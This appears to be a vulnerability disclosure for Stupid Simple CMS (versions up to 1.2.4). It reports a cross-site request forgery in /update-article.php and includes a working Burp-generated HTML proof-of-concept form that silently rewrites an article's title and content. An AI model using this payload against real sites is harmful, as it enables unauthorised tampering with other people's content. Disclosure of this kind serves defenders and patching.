 product： Stupid Simple CMS ( Blogger )

download link： https://github.com/codelyfe/Stupid-Simple-CMS

version：<=1.2.4


Stupid Simple CMS v1.2.4 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /update-article.php

![1](https://github.com/Xin246/cms/assets/160984304/d481ad67-5f01-461f-851e-d8ea87e7d79e)


poc:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/update-article.php" method="POST">
      <input type="hidden" name="id" value="1704207306" />
      <input type="hidden" name="title" value="cs1" />
      <input type="hidden" name="content" value="cs123" />
      <input type="hidden" name="image&#95;url" value="" />
      <input type="hidden" name="category" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```

![2](https://github.com/Xin246/cms/assets/160984304/2f8380af-8632-42b8-9fef-00b99c2aff53)


successed

![3](https://github.com/Xin246/cms/assets/160984304/a1738250-9419-4f7d-bb2c-e09262e2af0a)
